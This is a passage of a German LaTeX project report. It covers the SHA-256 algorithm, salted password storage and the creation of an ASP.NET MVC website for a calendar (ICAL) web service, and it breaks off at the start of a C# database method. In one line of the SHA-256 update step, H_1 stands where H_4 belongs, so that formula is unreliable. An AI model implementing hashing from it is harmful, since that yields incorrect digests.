Zuerst werden 8 Variablen auf ihren Anfangswert gesetzt. Diese werden durch einen Bruchteil der ersten 32Bits festgelegt.\\
$H_1^{(0)} = 0x6a09e667\;  H_2^{(0)} = 0xbb67ae85\;   H_3^{(0)} = 0x3c6ef372 \;  H_4^{(0)} = 0xa54ff53a \\H_5^{(0)} = 0x510e527f\;  H_6^{(0)} = 0x9b05688c\;  H_7^{(0)} = 0x1f83d9ab\;H_8^{(0)} = 0x5be0cd19\;    $\\ \\
Als nächstes werden die Blöcke $M^{(1)}$ $M^{(2)}$ $M^{(3)}$ gleichzeitig abgearbeitet.Für t= 1 bis N
\begin{enumerate}
\item Erzeugen von 64 Blöcken $W_i$ von $M^{(t)}$
\item setzen von \\(a,b,c,d,e,f,g,h) = ($H_1^{(t-1)}$,$H_2^{(t-1)}$,$H_3^{(t-1)}$,$H_4^{(t-1)}$,$H_5^{(t-1)}$,$H_6^{(t-1)}$,$H_7^{(t-1)}$,$H_8^{(t-1)}$)
\item 64 Runden ausführen von\\$T_1 = h + {\sum_1} (e) + Ch(e, f, g) + K_i + W_i\\T_2 = \sum_0(a) + Maj(a,b,c)\\h = g\\g=f\\f=e\\e=d+ T_1\\d=c\\c=b\\b=a\\a=T_1+T_2$
\item Berechnen des neuen Wertes von $H_j^{(t)}$\\$H_1^{(t)}  = H_1^{(t-1)} + a \\H_2^{(t)}  = H_2^{(t-1)} + b \\H_3^{(t)}  = H_3^{(t-1)} + c \\H_1^{(t)}  = H_4^{(t-1)} + d \\H_5^{(t)}  = H_5^{(t-1)} + e \\H_6^{(t)}  = H_6^{(t-1)} + f \\H_7^{(t)}  = H_7^{(t-1)} + g \\H_8^{(t)}  = H_8^{(t-1)} + h$
\item Ende
\end{enumerate}
Der Hash Value ist das Ergebnis wenn alle $H_i^N$, nach Durchgang des letzten Blocks, zusammengefügt werden.\\$H = H_1^{(N)} || H_2^{(N)} || H_3^{(N)} || H_4^{(N)} || H_5^{(N)} || H_6^{(N)} || H_7^{(N)} || H_8^{(N)}$\\ \\
input: 61 62 63 \\
hash: ba7816bf8f01cfea414140de5dae2223b00361a396177a9cb410ff61f20015ad\\
vgl. \textcite{sha256}
\subsection{Passwort Hashes}
\label{sec:pwdhash}
Wie die Wahl eines sicheren Passsworts vom Benutzer, ist es genau so wichtig für den Service Provider, dass dieser das Passwort seiner Benutzer richtig hasht.\\ \\Bereits behandelt wurde, was ein Hash ist und wie ein Hash Algorithmus funktioniert nun wird in diesem Abschnitt erklärt, wie Hashfunktionen richtig genutzt werden. Wichtig bei der Speicherung des Passwortes ist die Verwendung eines Salt. Was ein Salt ist, wird im Kapitel Webseite-MVC Salt erklärt
\subsection{Richtige Speicherung von Benutzerdaten}
Der erstellte Salt für ein Passwort muss für jeden Benutzer eindeutig sein. Jedes Mal, wenn ein Benutzer ein Konto erstellt oder sein Kennwort ändert, sollte das Kennwort mit einem neuen zufälligen Salt gehasht werden. Es sollte niemals ein Salt wiederverwendet werden. Der Salt sollte auch einigermaßen lang sein, damit es möglich ist, viele verschiedene Saltwerte zu erzeugen. Als Faustregel gilt, dass der Salt mindestens so lang sein sollte, wie die Länge des Hashes der von der Hash-Funktion erzeugt wird. Der Salt sollte in der Benutzertabelle der Datenbank neben dem Hash gespeichert werden.
\paragraph{Speichern eines Passworts}:\\
\begin{enumerate}
\item Erzeugen eines langen zufälligen Salt mit einem CSPRNG.(Kryptographisch sicherer Zufallszahlengenerator) 
\item An das Passwort den Salt vorne anbinden und dann mit einer gwünschten Hash-Funktion hashen.
\item Speichern des Salts in der Datenbank.
\item Erzeugen des Salts und des Hashes immer Serverseitig
\item Benutzen von langsameren Hash-Funktionen wie  PBKDF2, bcrypt oder scrypt.
\end{enumerate}
\paragraph{Überprüfen eines Passworts}:\\
\begin{enumerate}
\item Abrufen des Salt und des Hash vom Benutzer aus der Datenbank.
\item Salt mit dem eingegebenen Passwort hashen und mit dem Passwort hash vergleichen.
\end{enumerate}
% Wie das gemacht werden kann -> [https://crackstation.net/hashing-security.htm]
\chapter{ASP.NET MVC}
\label{sec:MVC}
\section{Allgemeines MVC}
\label{sec:allgemein}
Dieser Abschnitt dreht sich um ASP .NET MVC womit die Webseite des ICAL-Webservices geschrieben wurde. Hier wird die Grundidention von MVC und was MVC ist besprochen. Wie die Webseite aufgebaut wurde, wird anhand von Code Auszügen gezeigt. Die beim MVC bekannten Views und Controllers werden aufgezeigt und erklärt. Ebenfalls wird behandelt, wie die Links zu den Kalendern erzeugt und zur Verfügung gestellt werden. 
\section{Erstellung der Webseite}
\label{sec:erstellung_ws}
Dieses Kapitel befässt sich damit wie in Visual-Studio ein MVC-Website Projekt erstellt werden kann.\\
Zunächst muss sichergestellt werden, dass alle benötigten Features installiert sind. Dafür muss auf Datei -\textgreater{} Neues Projekt geklickt werden und dann auf folgendes.\\
\begin{figure}[H]
    
\includegraphics[width=\textwidth]{Webseite_MVC_Erstellung_features}
    \caption{Webseite Features}
    \label{fig:webfeatures}
\end{figure}
Im Installer muss überprüft werden, dass folgende Features installiert sind.\\
\begin{figure}[H]
    
\includegraphics[width=\textwidth]{Webseite_MVC_Erstellung_Install}
    \caption{Webseite Requirements}
    \label{fig:webinstall}
\end{figure}
Danach ist es möglich ein MVC-Website Projekt zu erstellen, dafür muss folgendes gemacht werden.\\
Schritt 1:\\
Zuerst muss die Erstellung eines neuen Projektes über File -\textgreater{} New -\textgreater{} Project, eingeleitet werden.\\
\begin{figure}[H]
    
\includegraphics[width=\textwidth]{Webseite_MVC_Erstellung_Schritt1}
    \caption{Webseite Erstellung Schritt 1}
    \label{fig:weberstell1}
\end{figure}
Schritt 2:\\
Danach muss unter dem Tab Web die ASP.NET Core Web Application ausgewählt werden und dieser muss ein Name zugewiesen werden. Danach muss der Schalter Ok gedrückt werden.\\
\begin{figure}[H]
    
\includegraphics[width=\textwidth]{Webseite_MVC_Erstellung_Schritt2}
    \caption{Webseite Erstellung Schritt 2}
    \label{fig:weberstell2}
\end{figure}
Schritt 3:\\
Nun muss das Modell gewählt werden, für den ICAL-Webservice wird die MVC Web-Application benötigt. Danach muss der Schalter Change Authentication gedrückt werden. \\
\begin{figure}[H]
    
\includegraphics[width=\textwidth]{Webseite_MVC_Erstellung_Schritt3}
    \caption{Webseite Erstellung Schritt 3}
    \label{fig:weberstell3}
\end{figure}Schritt 4:\\
In diesem Schritt wird festgelegt, dass die Web-Anwendung Benutzerdaten speichert.
\begin{figure}[H]
    
\includegraphics[width=\textwidth]{Webseite_MVC_Erstellung_Schritt4}
    \caption{Webseite Erstellung Schritt 4}
    \label{fig:weberstell4}
\end{figure}
Danach wurde erfolgreich eine MVC-Webseite erstellt und diese kann über den IIS Express Lokal gestartet und getestet werden. Wird dieses Projekt nun ausgegührt ist das ASP Template zu sehen.\\
\begin{figure}[H]
    
\includegraphics[width=\textwidth]{Webseite_MVC_Erstellung_Done}
    \caption{Webseite Erstellung Fertig}
    \label{fig:weberstellfertig}
\end{figure}
\begin{figure}[H]
    
\includegraphics[width=\textwidth]{Webseite_MVC_Erstellung_Preview}
    \caption{Webseite}
    \label{fig:webseite}
\end{figure}
\section{Aufbau der Webseite }
\label{sec:aufbau}
In diesem Kapitel wird behandelt wie die Webseite des ICAL-Webservices aufgebaut ist. Dazu folgen nun einige Screenshots der Webseite.
Zunächst ist die Hauptseite zu sehen.\\
\begin{figure}[H]
    
\includegraphics[width=\textwidth]{Webseite_MVC_Aufbau_Main}
    \caption{Webseite Hauptseite}
    \label{fig:webmainpage}
\end{figure}
Auf dieser kann sich dann entweder eingeloggt oder registriert werden.\\
\begin{figure}[H]
    
\includegraphics[width=\textwidth]{Webseite_MVC_Aufbau_Register}
    \caption{Webseite Registrierung}
    \label{fig:webregister}
\end{figure}
\begin{figure}[H]
    
\includegraphics[width=\textwidth]{Webseite_MVC_Aufbau_login}
    \caption{Webseite Loginseite}
    \label{fig:weblogin}
\end{figure}
Wird das Passwort einmal vergessen, kann dieses Passwort über das Passwort vergessen Feature, zurückgesetzt werden. 
\begin{figure}[H]
    
\includegraphics[width=\textwidth]{Webseite_MVC_Aufbau_PasswordReset}
    \caption{Webseite Passwort Zurücksetzen}
    \label{fig:webpwdforgot}
\end{figure}
Nach dem Anmeldevorgang kann der eigene Account verwaltet werden.\\
\begin{figure}[H]
    
\includegraphics[width=\textwidth]{Webseite_MVC_Aufbau_User1}
    \caption{Webseite Benutzer}
    \label{fig:webuser}
\end{figure}
Man kann sein Passwort ändern oder sein 2FA einrichten. \\
\begin{figure}[H]
    
\includegraphics[width=\textwidth]{Webseite_MVC_Aufbau_password}
    \caption{Webseite Benutzer Passwort Einstellungen}
    \label{fig:webuserpwd}
\end{figure}
\begin{figure}[H]
    
\includegraphics[width=\textwidth]{Webseite_MVC_Aufbau_2FA}
    \caption{Webseite Benutzer 2FA}
    \label{fig:webuser2fa}
\end{figure}
Und natürlich gibt es hier das Hauptfeature, nämlich das verwalten der Kalender, bzw. das Abrufen der Links oder das direkte herunterladen.\\
\begin{figure}[H]
    
\includegraphics[width=\textwidth]{Webseite_MVC_Aufbau_calendars}
    \caption{Webseite Benutzer Kalender}
    \label{fig:webusercal}
\end{figure}
\section{Link generation}
\label{sec:link}
Hier wird das Herz des ICAL-Webservices erklärt. Nämlich die Funktion, die die fertigen Kalender zur Verfügung stellt.
\begin{lstlisting}[caption={Link erzeugung}]
public List<string> getUsersTables(string myuser)
{
        //List fuer UserIDs
        List<int> result = new List<int>();
        //Verbindung zu Datenbank
        using (SqlConnection connection = new SqlConnection(@"dbstring"))
